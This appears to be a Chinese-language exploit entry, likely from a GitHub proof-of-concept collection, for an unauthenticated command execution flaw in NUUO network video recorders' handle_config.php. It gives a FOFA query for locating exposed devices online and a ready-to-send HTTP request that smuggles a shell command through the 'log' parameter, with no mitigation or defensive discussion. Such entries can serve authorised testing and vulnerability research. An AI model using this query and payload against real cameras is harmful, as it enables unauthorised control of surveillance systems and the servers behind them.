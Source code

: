 # NUUO摄像机handle_config.php远程代码执行漏洞

NUUO摄像头是中国台湾NUUO公司旗下的一款网络视频记录器，NUUO摄像头handle_config.php存在未授权命令执行漏洞，攻击者可以获取服务器权限

## fofa

```javascript
body="www.nuuo.com/eHelpdesk.php"
```

## poc

```javascript
GET /handle_config.php?log=;id; HTTP/1.1
Host: 
```

![image-20250219141445999](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202502191414249.png)